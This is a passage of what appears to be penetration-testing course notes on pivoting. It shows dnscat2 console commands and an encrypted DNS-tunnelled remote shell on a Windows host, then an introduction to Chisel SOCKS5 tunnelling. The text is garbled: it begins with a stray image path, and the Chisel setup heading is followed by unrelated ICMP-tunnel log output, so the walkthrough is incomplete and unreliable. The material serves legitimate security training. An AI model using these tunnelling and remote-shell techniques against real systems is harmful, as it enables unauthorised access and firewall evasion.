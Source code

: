 #### Listing dnscat2 Options
```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements.

#### Interacting with the Established Session
```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

## SOCKS5 Tunneling with Chisel

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. Chisel can create a client-server tunnel connection in a firewall restricted environment. We can start a Chisel server for an internal network we are not directly connected to.

### Setting Up & Using Chisel


[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%